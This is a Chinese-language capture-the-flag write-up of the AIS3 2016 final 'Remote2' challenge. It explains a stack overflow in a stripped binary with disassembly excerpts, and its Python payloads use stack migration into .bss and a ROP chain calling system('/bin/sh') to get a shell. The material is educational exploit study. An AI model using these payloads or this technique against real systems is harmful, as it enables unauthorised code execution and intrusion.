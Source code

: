 title: '2016-AIS3-FINAL-Remote2'

tags:
    - ROP
    - Stack Migration
categories:
    - write-ups

date: 2016-08-29 20:33:00
---

這題雖然沒在時間內解出來，但是在回家路上靈光乍現還是來寫一下好了

P.S 由於**@Brainsp8210**的payload太漂亮了其實可以直接看他的----->[傳送門][brain]：

這題應該要會的，就是一個比較麻煩的**Stack Migration**，只能說自己經驗值不夠，沒有第一時間想到解法Orz

<!-- more -->

一開始先用`$ file pwn2`看了一下發現是`strip`過的binary，就超級不想看的QQ

`$ ./pwn2`就噴一個`sh: 1: lsh: not found`，然後就停在那不知道在幹嘛，於是用[Qira][qira]追一下，隨便送幾個AAAA然後發現他在做`read`，但是.....他是1 byte 1 byte的讀，然後最多可以讀64bytes，他會用`[rbp-0x4]`的4bytes來判斷現在讀了多少bytes了

	4005a3:       83 45 fc 01             add    DWORD PTR [rbp-0x4],0x1
	4005a7:       83 7d fc 3f             cmp    DWORD PTR [rbp-0x4],0x3f

從這段可以發現，64bytes全部讀完可以剛好蓋到**ret address**控制他的**control flow**

	400582:       8b 45 fc                mov    eax,DWORD PTR [rbp-0x4]
	400585:       48 8d 55 d0             lea    rdx,[rbp-0x30]
	400589:       48 01 d0                add    rax,rdx
	40058c:       ba 01 00 00 00          mov    edx,0x1
	400591:       48 89 c6                mov    rsi,rax
	400594:       bf 00 00 00 00          mov    edi,0x0
	400599:       e8 a2 fe ff ff          call   400440 <read@plt>

而且因為他要讀入的地方會受`[rbp-0x4]`而決定，所以也不能透過改那邊的值多蓋幾個bytes，所以就是控制**rbp**還有**ret address**來做到`*Stack Migration*`

payload#1:

```python
payload = 'A'*44 + '\x2c' + '\x00'*3 + p64(buffer1) + p64(read_start)
```
這邊的`'\x2c' + '\x00'*3`是剛好蓋到`rbp-0x4`的地方`0x2c == 44`剛好代表前面已經讀入的44bytes才能讓後面payload順利讀進去stack上，蓋完`'\x2c' + '\x00'*3`後下一格就是`rbp`的位置，為了要達到`*Stack Migration*`，要把`rbp`控制到空的buffer上，也就是控制程式的`Stack Frame`。

找`.bss`段中沒有用到的地方來做寫入

	00601000-00602000 rw-p 00001000 08:01 2878868

可以從後面找，比較不會影響到前面原有的東西，在這裡我的做法需要兩個buffer，然後再buffer1的**ret address**後面蓋成完整的`*ROP Chain*`
	
```python
buffer1 = 0x602000-0x100
buffer2 = buffer1+0x20+0xc
```

這邊的`buffer2`需要特別控制，因為在讀完`buffer1`跟`buffer2`之後需要再跳回`buffer1`之後直接讓他`ret`那邊執行疊好的`*ROP Chain*`，而在跳回`buffer1`時，他一樣會檢查`[rbp-0x4]`的值，因此我們在讀`buffer2`的時候就必須讓他把`rbp-0x4`的內容改成`0x00000000`所以除了將`buffer1`往下拉`0x20`個bytes之外還需要多拉`0xc`這樣寫入的頭就會在`rbp-0x4`的地方

另外還有一個需要特別注意的是，在`call read`的時候程式會在`buffer`的頭減掉`0x8`的地方放上`0x40059e`，在每次call完read之後會執行那段code，重新回到迴圈繼續寫入，因此在buffer2的時候，需要在當前`rsp-0x8`的位置放置`0x40059e`。

payload#2, 3:

```python
r.send('A'*44 + '\x2c' + '\x00'*3 + p64(buffer2) + p64(read_start))
r.send('\x00'*4 + 'A'*8 + p64(read_judge) + p64(sh) + p64(system) + 'A'*8 + '\x2c' + '\x00'*3 + p64(buffer1) + p64(read_start))
```

最後再回到buffer1把ret address蓋成`pop rdi ; ret`，他便會將剛剛放的`address of /bin/sh`pop到rdi然後ret執行`system`便能成功拿到`shell`。

[qira]: https://github.com/BinaryAnalysisPlatform/qira

[brain]: https://github.com/briansp8210

<!-- more -->
